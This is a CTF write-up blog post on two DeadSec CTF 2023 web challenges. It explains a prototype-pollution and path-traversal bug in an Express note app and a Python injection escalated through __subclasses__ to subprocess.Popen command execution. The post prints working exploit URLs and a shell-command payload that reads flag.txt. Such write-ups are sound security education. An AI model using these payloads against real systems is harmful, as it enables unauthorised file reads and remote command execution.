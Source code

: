 ```yaml
---
layout: mypost
title: DeadSec CTF 2023
categories: [web, ctf]
---
```


## crush
Note apps.

![](images/deadsecCTF23/crush1.PNG)

![](images/deadsecCTF23/crush2.PNG)

![](images/deadsecCTF23/crush3.PNG)

We are provided with the following source.

```js
const express = require('express');
const bodyParser = require('body-parser');
const ejs = require('ejs');
const hash = require('crypto-js/md5');
const fs = require('fs');
const app = express();


var letter = {};
var read = {};
function isObject(obj) {
	return obj !== null && typeof obj === 'object';
}
function setValue(obj, key, value) {
	const keylist = key.split('.');
	const e = keylist.shift();
	if (keylist.length > 0) {
		if (!isObject(obj[e])) obj[e] = {};
		setValue(obj[e], keylist.join('.'), value);
	} else {
		obj[key] = value;
		return obj;
	}
}

app.use(bodyParser.urlencoded({ extended: false }));
app.set('view engine', 'ejs');


app.get('/', function (req, resp) {
	read['lettername'] = 'crush';
	resp.render(__dirname + "/ejs/index.ejs");
})


app.post('/sendcrush',function(req,resp){
	let {name , crush ,content}=req.body;
	lettername=hash(crush).toString();
	content = name + " sent you a letter: " + content;
	fs.writeFile(__dirname+"/myletter/"+lettername,content,function(err){
		if(err==null){
			letter[lettername]=lettername;
			resp.send(`I will send this message to your crush, hoping that she will read it <3
						Your letter name is : ${lettername}`);
		}else{
			resp.write("<script>alert('hack cc')</script>");
			resp.write("<script>window.location='/'</script>");
		}
	})

})
// flag in flag.txt
app.get('/readletter', function (req, resp) {
	let lettername = letter[req.query.lettername];
	if (lettername == null) {
		fs.readFile(__dirname + '/myletter/' + read['lettername'], 'UTF-8', function (err, data) {
			resp.send(data);
		})
	}
	else {
		read[lettername] = lettername;
		fs.readFile(__dirname + '/myletter/' + read[lettername], 'UTF-8', function (err, data) {
			if (err == null) {
				resp.send(data);
			} else {
				resp.send('letter is not existed');
			}
		})
	}

})

app.get('/hacking', function (req, resp) {
	let { hack, lettername, rename } = req.query;
	if (hack == null) {
		resp.send('Don\'t try to hack anything, she doesn\'t love you.');
	} else if (hack == 'rename') {
		setValue(letter, lettername, rename)
		resp.send('Nice !!!!!!!');
	} else if (hack == 'reset') {
		read = {};
		resp.send("All letter have been deleted");
	}
})

app.listen(1301);

console.log("listen on 0.0.0.0:1301");
```

```js
// flag in flag.txt
```

From the above comment, the objective seems to be to execute some kind of path traversal. Looking through the code, the `setValue` function looks susceptible to prototype pollution.

```js
function setValue(obj, key, value) {
	const keylist = key.split('.');
	const e = keylist.shift();
	if (keylist.length > 0) {
		if (!isObject(obj[e])) obj[e] = {};
		setValue(obj[e], keylist.join('.'), value);
	} else {
		obj[key] = value;
		return obj;
	}
}
```

We can verify that it is vulnerable by executing it in a browser console. 

![](images/deadsecCTF23/crush4.PNG)

But what variable do we control with prototype pollution? Let's examine the code for constructing note filepaths.

```js
let lettername = letter[req.query.lettername];
...
read[lettername] = lettername
...
fs.readFile(__dirname + '/myletter/' + read[lettername], 'UTF-8', function (err, data) {
    if (err == null) {
        resp.send(data);
    } else {
        resp.send('letter is not existed');
    }
})
```

We just need to pollute `letter.<whatever>` to what we want and then specify `<whatever>` as the lettername in our readletter query.

```
/hacking?hack=rename&lettername=__proto__.abcd&rename=../flag.txt
```

```
/readletter?lettername=abcd
```

![](images/deadsecCTF23/crush5.PNG)

## Trailblazer

We are greeted by this page. It may be some kind of allowed character list?

![](images/deadsecCTF23/trail1.PNG)

There isn't much to examine on that page. So, we look for other pages, beginning with robots.txt.

![](images/deadsecCTF23/trail2.PNG)

That image seems strange. Copying the link of the image, we find the following endpoint. 

![](images/deadsecCTF23/trail4.PNG)

Putting random input seems to trigger some filter-- likely because our input does not abide the allowed character list from earlier.

![](images/deadsecCTF23/trail5.PNG)

Fuzzing, we discover that putting a `==` after `now` triggers a different response.

![](images/deadsecCTF23/trail6.PNG)

Maybe we're injecting python code? The server runs on the python server library 'waitress' and `now` is a function from the 'datetime' library, so this may be working in a python context.

![](images/deadsecCTF23/trail6.5.PNG)

![](images/deadsecCTF23/trail7.PNG)

We can know for certain we are injecting python then.

From here, we can get to `object` with `mro`. We keep in mind that the backend code is probably something like `screenshot output of exec('datetime.' + input + '()')` so our injection must return a function.

![](images/deadsecCTF23/trail8.PNG)

Then, we can use `__subclasses__` to look for useful functions

![](images/deadsecCTF23/trail9.PNG)

![](images/deadsecCTF23/trail10.PNG)

In the interest of time, we will write a simple script to automatically download pictures of all the elements.

```py
import requests
import shutil

def main():
    for i in range(0,500):
        url = f'https://110f1a9a0539421afca623f6.deadsec.questimages/now.__class__.mro()[1].__subclasses__()[{i}].__name__.__str__'
        response = requests.get(url, stream=True)
        with open(f'subclass{i}.png', 'wb') as out_file:
            shutil.copyfileobj(response.raw, out_file)
        del response

if __name__ == '__main__':
    main()
```

Then, we just comb through the images.

![](images/deadsecCTF23/trail10.5.PNG)

`subprocess.Popen`!

![](images/deadsecCTF23/trail11.PNG)

With `Popen` we can execute arbitrary commands. thus, we work from this final payload to show us the flag

```images/now.__class__.mro()[1].__subclasses__()[352]('cat${IFS}flag.txt',shell=True,stdout=-1).communicate()[0][0:].strip```

![](images/deadsecCTF23/trails1.PNG)

![](images/deadsecCTF23/trails2.PNG)

![](images/deadsecCTF23/trails3.PNG)

Only 6 solves on this one!

![](images/deadsecCTF23/trailsolve.PNG)

## Conclusion

![](images/deadsecCTF23/deadsec.PNG)